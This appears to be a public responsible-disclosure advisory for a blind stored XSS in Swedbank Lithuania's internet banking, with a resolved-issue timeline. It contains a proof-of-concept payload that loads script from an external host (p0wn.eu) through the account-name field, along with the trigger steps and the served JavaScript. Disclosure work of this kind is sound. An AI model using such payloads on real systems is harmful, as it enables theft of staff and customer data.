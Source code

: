 SWEDBANK: Blind Stored Cross-Site-Scripting (XSS) in Retail Banking
=============================================================

Description
-----------
Regular authenticated internet banking users can include arbitrary input within bank’s account name. 
This makes internet banking application hosted at https://www.swedbank.lt/private vulnerable to a blind Stored Cross-Site-Scripting attack (XSS). 

A malicious actor would first place arbitrary javascript payload within their bank account name. 
Once it is accessed by another party - for example banking personnel, call centre stuff etc. attacker-controlled javascript code would be executed within the context of the victim browser.
This could then be used to both leak confidential information and perform escalation of privillege attacks.

Proof-of-Concept
----------------

Authenticate to the web application and open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases

`pageId = private.home.important.aliases`

Include following javascript code within your bank account name and save changes:
```
A<script src=“//p0wn.eu”></script>
```

*Note* To make an isolated check from external network a simple trick can be used:
Point domain used within payload to the IP address you control and save the entry within system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

Unfiltered user input and failure to sanitize output in the web content leads to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) browser.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
